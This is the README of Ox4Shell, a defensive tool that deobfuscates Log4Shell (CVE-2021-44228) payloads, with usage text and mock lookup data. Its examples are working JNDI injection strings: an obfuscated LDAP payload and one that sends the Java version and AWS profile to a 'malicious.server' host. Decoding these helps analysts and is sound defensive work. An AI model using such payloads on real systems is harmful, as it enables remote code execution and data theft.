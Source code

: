 
<p align="center">
    <img alt="Ox4Shell" src="https://uploads-ssl.webflow.com/6097a2e324b791e6c3affd6e/61cafb3f5b7c5a33af49f9fe_Ox4Shell%20Logo%20-%20Color.png"/>
</p>

<hr/>

<p align="center">
    <img alt="maintained-oxeye" src="https://img.shields.io/badge/maintained%20by-oxeye.io-blueviolet"/>
    <img alt="python-3.8" src="https://img.shields.io/badge/python-3.8-green"/>
    <img alt="version-1.0" src="https://img.shields.io/badge/version-1.0-blue"/>
    <img alt="license-mit" src="https://img.shields.io/badge/license-MIT-lightgrey"/>
</p>

# Ox4Shell
Deobfuscate Log4Shell payloads with ease.

## Description
Since the release of the Log4Shell vulnerability (CVE-2021-44228), many tools were created to obfuscate Log4Shell payloads,
making the lives of security engineers a nightmare.

This tool intends to unravel the true contents of obfuscated Log4Shell payloads. 

For example, consider the following obfuscated payload:
```text
${zrch-Q(NGyN-yLkV:-}${j${sm:Eq9QDZ8-xEv54:-ndi}${GLX-MZK13n78y:GW2pQ:-:l}${ckX:2@BH[)]Tmw:a(:-da}${W(d:KSR)ky3:bv78UX2R-5MV:-p:/}/1.${)U:W9y=N:-}${i9yX1[:Z[Ve2=IkT=Z-96:-1.1}${[W*W:w@q.tjyo@-vL7thi26dIeB-HxjP:-.1}:38${Mh:n341x.Xl2L-8rHEeTW*=-lTNkvo:-90/}${sx3-9GTRv:-Cal}c$c${HR-ewA.mQ:g6@jJ:-z}3z${uY)u:7S2)P4ihH:M_S8fanL@AeX-PrW:-]}${S5D4[:qXhUBruo-QMr$1Bd-.=BmV:-}${_wjS:BIY0s:-Y_}p${SBKv-d9$5:-}Wx${Im:ajtV:-}AoL${=6wx-_HRvJK:-P}W${cR.1-lt3$R6R]x7-LomGH90)gAZ:NmYJx:-}h}
```

After running Ox4Shell, it would transform into an intuitive and readable form:
```text
${jndi:ldap://1.1.1.1:3890/Calc$cz3z]Y_pWxAoLPWh}
```


## Usage
To run the tool simply:
```
~/Ox4Shell » python ox4shell.py --help
usage: ox4shell [-h] [-d] [-m MOCK] [--max-depth MAX_DEPTH] (-p PAYLOAD | -f FILE)

   ____       _  _   _____ _          _ _ 
  / __ \     | || | / ____| |        | | |
 | |  | |_  _| || || (___ | |__   ___| | |
 | |  | \ \/ /__   _\___ \| '_ \ / _ \ | |
 | |__| |>  <   | | ____) | | | |  __/ | |
  \____//_/\_\  |_||_____/|_| |_|\___|_|_|

Ox4Shell - Deobfuscate Log4Shell payloads with ease.
    Created by https://oxeye.io

General:
  -h, --help            show this help message and exit
  -d, --debug           Enable debug mode (default: False)
  -m MOCK, --mock MOCK  The location of the mock data JSON file that replaces certain values in the payload (default: mock.json)
  --max-depth MAX_DEPTH
                        The maximum number of iteration to perform on a given payload (default: 150)

Targets:
  Choose which target payloads to run Ox4Shell on

  -p PAYLOAD, --payload PAYLOAD
                        A single payload to deobfuscate, make sure to escape '$' signs (default: None)
  -f FILE, --file FILE  A file containing payloads delimited by newline (default: None)
```


## Mock Data
The Log4j library has a few unique lookup functions, which allow users to look up environment variables, runtime 
information on the Java process, and so forth. This capability grants threat actors the ability to probe for specific 
information that can uniquely identify the compromised machine they targeted.

Ox4Shell uses the `mock.json` file to insert common values into certain lookup function, for example,
if the payload contains the value `${env:HOME}`, we can replace it with a custom mock value.

The default set of mock data provided is:
```json
{
    "hostname": "ip-127.0.0.1",
    "env": {
        "aws_profile": "staging",
        "user": "ubuntu",
        "pwd": "/opt/",
        "path": "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/jvm/java-1.8-openjdk/jre/bin:/usr/lib/jvm/java-1.8-openjdk/bin"
    },
    "sys": {
        "java.version": "16.0.2",
        "user.name": "ubuntu"
    },
    "java": {
        "version": "Java version 16.0.2",
        "runtime": "OpenJDK Runtime Environment (build 1.8.0_181-b13) from Oracle Corporation",
        "vm": "OpenJDK 64-Bit Server VM (build 25.181-b13, mixed mode)",
        "os": "Linux 5.10.47-linuxkit unknown, architecture: amd64-64",
        "locale": "default locale: en_US, platform encoding: UTF-8",
        "hw": "processors: 1, architecture: amd64-64"
    }
}

```

As an example, we can deobfuscate the following payload using the Ox4Shell's mocking capability:
```bash
~/Ox4Shell >> python ox4shell.py -p "\${jndi:ldap://\${sys:java.version}.\${env:AWS_PROFILE}.malicious.server/a}"  
${jndi:ldap://16.0.2.staging.malicious.server/a}
```

## Authors
- [Daniel Abeles](https://twitter.com/Daniel_Abeles)
- [Ron Vider](https://twitter.com/ron_vider)


## License
The source code for the project is licensed under the MIT license, which you can find in the LICENSE file.
